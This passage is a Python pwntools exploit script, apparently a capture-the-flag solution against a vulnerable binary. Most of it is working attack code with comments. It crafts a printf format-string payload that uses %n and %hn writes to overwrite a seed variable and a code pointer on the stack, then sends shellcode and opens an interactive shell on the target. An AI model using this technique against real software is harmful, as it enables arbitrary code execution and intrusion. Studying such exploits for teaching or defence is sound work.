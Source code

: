```python

log.info("Break at %s to stop before running shellcode" % hex(base_addr + 0x161f))

# diff = buffer_start - current_code_ptr_val
# (could be done with the offsets only, but since i can run code i might as
#  well just use what i already have)
# > diff = 0b100000011111101
# print(len("{0:b}".format(diff)))
# > 15
#
# only 15 bits are different, so we only need to overwrite two bytes with printf
# and since they're the least significant bytes, they're the first two in x86
# (which is a little endian architecture)
#
# so we set the format string to print `diff` characters then use %n to overwrite
# `code_ptr_addr`

log.info("Overwriting time and code pointer")
send_command("1") # change username

# 3764 chars are written for the seed, so we need to write N - 3764
# chars to get the count to the value needed for the shellcode address
# but if the value is too small, it'd fail
if value_to_write < 3764:
    log.error("Value to write too small, please try again")
    import sys
    sys.exit(1)
value_to_write -= 3764

# 19 * 8 bytes before the buffer on the stack
# + 5 arguments in registers
payload = ""
payload += "%03764d"                        # write 3764 characters, so we can overwrite the seed
payload += "%29$n"                          # overwrite time (aka seed) var. %n is an int, which is
                                            # 4 bytes (same size as the seed) in x86-64. This will
                                            # set it to exactly 3764, overwriting all previous bits.
payload += "%0" + str(value_to_write) + "d" # overwrite least significant address bits
                                            # the actual needed value needs to have 3764 subtracted
                                            # from it because we already wrote that many characters
                                            # for the seed.
payload += "%28$hn"                         # overwrite code pointer. %hn is a short, which is the
                                            # two first bytes in a little endian architecture, so
                                            # the pointer value is already right.
                                            # if it wasn't, we could just do pointer math to set the
                                            # address to the least significant bytes
payload += "P"*(8 - (len(payload) % 8))     # align the payload to 8 bytes, so the next two
                                            # addresses can be accessed
payload += p64(code_ptr_addr)               # this is the 28th value
payload += p64(current_time_addr)           # this is the 29th value
send_command(payload)
read_until("Hello, ")

raw_input("press enter to run shellcode...")
log.info("Sending and running shellcode")
send_shellcode(shellcode)

log.info("Enjoy :)")
p.interactive()
```